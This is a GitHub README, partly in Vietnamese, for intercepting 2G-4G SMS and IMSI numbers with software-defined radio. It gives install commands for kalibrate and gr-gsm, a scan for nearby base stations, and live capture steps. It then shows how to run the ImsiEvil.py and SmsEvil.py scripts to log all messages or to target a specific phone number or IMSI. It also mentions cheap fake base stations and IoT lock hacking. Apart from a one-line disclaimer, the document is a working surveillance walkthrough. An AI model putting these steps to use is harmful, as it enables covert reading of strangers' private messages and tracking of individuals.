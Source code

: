 # Read_Sms_Hacking
Đọc tin nhắn của mạng đi động 2G-4G.

Bài viết nhằm mục đích giúp bạn đọc hiểu hơn về mạng di động, các công cụ đo lường tín hiệu mạng di động, các công cụ phân tích và đọc gói tin tcp/ip \
Bạn đọc lập trình không nên sử dụng kiến thức của mình vào các mục đích trái pháp luật.

Mạng 2G-4G khi gửi tin nhắn xuống thẻ Sim đã được mã hóa tiêu tuân chuẩn GSM. Vì Sim có bộ nhớ thấp nên việc tích hợp các loại mã hóa phức tạp vẫn chưa được thành công, chỉ cần một thiết bị bắt đúng giải tần số của BTS và thực hiện giải mã bằng software là có thể đọc được tin nhắn, nghe được audio thoại của kênh.

Các thiết bị IOT như cửa cuốn, khóa xe ô tô, xe máy... cũng có thể bị hack bằng cách tương tự này.

  <p align="center">
    <img src="https://www.paladion.net/hs-fs/hubfs/Paladion--2019/resources/blogs/How%20to%20Build%20an%20IMSI%20Catcher/3.jpg?width=527&name=3.jpg" style="max-width:100%;max-height:100%;" />
  </p>

**Hacker cũng có thể tạo ra những trạm BTS giả mạo chưa tới 600$, hoặc sử dụng các thiết bị IMSI catcher** <br/>
https://jurnal-singkat.blogspot.com/2016/04/building-portable-gsm-bts-using-nuand.html

# Công cụ phần mềm
```
kalibrate-rtl hoặc kalibrate-hackrf: công cụ quét dãy tần số GSM, xác định trạm BTS trong khu vực có tín hiệu mạnh
gr-gsm: công cụ thu và xử lý tín hiệu GSM
Wireshark: công cụ thu nhận dữ liệu mạng từ gr-gsm xử lý
gqrx: công cụ thu tín hiệu từ SDR
```

# Công cụ phần cứng: có thể dùng một trong các RTL-SDR, Hackrf, USRP, Blade-RF
```
https://www.paladion.net/blogs/how-to-build-an-imsi-catcher-to-intercept-gsm-traffic
Khi cắm thiết bị phần cứng vào cổng usb hoặc RS thì sẽ xuất hiện thêm card mạng mới, kiểm tra bằng lệnh lsusb sẽ thấy.
gqrx có nhiệm vụ thu tín hiệu từ thiết bị vào card mạng mới này
```

# Setup

```
sudo apt-get install python-pyshark
Gói pyshark để đọc các gói tin trong card mạng, vd bên dưới để đọc các payload http
https://medium.com/@vworri/extracting-the-payload-from-a-pcap-file-using-python-d938d7622d71
```

Install Gr GSM :  ( For receiving GSM transmissions )
```
sudo add-apt-repository -y ppa:ptrkrysik/gr-gsm
sudo apt-get update
sudo apt-get install gr-gsm
```

If gr-gsm failled to setup. Than follow those this : https://github.com/ptrkrysik/gr-gsm/wiki/Installation  

Install Kalibrate : ( For finding frequencies )
```
sudo apt install build-essential libtool automake autoconf librtlsdr-dev libfftw3-dev
git clone https://github.com/steve-m/kalibrate-rtl
cd kalibrate-rtl
./bootstrap && CXXFLAGS='-W -Wall -O3'
./configure
make
sudo make install
```
# Usage
You need gsm frequency on which you capture sms or imsi. By using kalibrate you will get all your near gsm base stations  frequencies.
```
kal -s GSM900
```
```
kal: Scanning for GSM-900 base stations.
GSM-900:
	chan: 4 (935.8MHz + 320Hz)	power: 1829406.95
	chan: 11 (937.2MHz + 308Hz)	power: 4540354.88
...
```
Now you need to capture gsm traffic using gr-gsm on frequency of your any gsm base station which you get from kalibrate.
```
grgsm_livemon -f <your_frequency>M
```
Example :
```
grgsm_livemon -f 935.8M
```
if you see output that's mean you getting gsm packets than continue other setps else change frequency.
```
2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b
2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b
2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b
2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b
...
```
Now every thing is ready you can start now capturing sms or imsi numbers using gsmevil.
You able to run imsi catcher and sms sniffer both at same time using 2 seprate terminal for capture imsi numbers and sms both at same time.
```
#### Capturing IMSI :
```
python ImsiEvil.py 
```
Options :
```
python ImsiEvil.py -h
Usage: ImsiEvil.py: [options]

Options:
  -h, --help            show this help message and exit
  -i IFACE, --iface=IFACE Interface (default : lo)
  -p PORT, --port=PORT  Port (default : 4729)
  -m IMSI, --imsi=IMSI  IMSI to track (default : None, Example: 123456789101112)
  -s SAVE, --save=SAVE  Save all imsi numbers to sqlite file. (default : None)
```
For save all imsi numbers with details in sqlite file.(It's will show you output on screen and also save in file)
```
python ImsiEvil.py -s example.db
```
For capture only specific imsi. (It's will show you only your given imsi result)
```
python ImsiEvil.py -m imsi_here (Example: python ImsiEvil.py -m 123456789101112)
```
#### Capturing SMS :

Run this command to quick start sms capturing.
```
python SmsEvil.py 
```
Options :
```
python SmsEvil.py -h
Usage: SmsEvil.py: [options]

Options:
  -h, --help            show this help message and exit
  -i IFACE, --iface=IFACE Interface (default : lo)
  -p PORT, --port=PORT  Port (default : 4729)
  -n NUMBER, --number=NUMBER Phone number (default : None)
  -s SAVE, --save=SAVE  Save all text messages to sqlite file. (default : None)
```
For save all sms in sqlite file.(It's will show you output on screen and also save in file)
```
python SmsEvil.py -s example.db
```
For capture only specific phone number sms. (It's will show you only your given phone number result)
```
python SmsEvil.py -n phone_number_here (Example: python SmsEvil.py -n 12345678910)
```

# Links 
Frequency : https://www.worldtimezone.com/gsm.html or https://en.wikipedia.org/wiki/GSM_frequency_bands
Sdr : https://en.wikipedia.org/wiki/Software-defined_radio
Sms : https://en.wikipedia.org/wiki/SMS#GSM
Imsi : https://fr.wikipedia.org/wiki/International_Mobile_Subscriber_Identity
Cell id : https://en.wikipedia.org/wiki/Cell_ID or https://unwiredlabs.com/
GSM : https://en.wikipedia.org/wiki/GSM
Frequency Calculator : https://www.cellmapper.net/arfcn
GR-GSM : https://github.com/ptrkrysik/gr-gsm
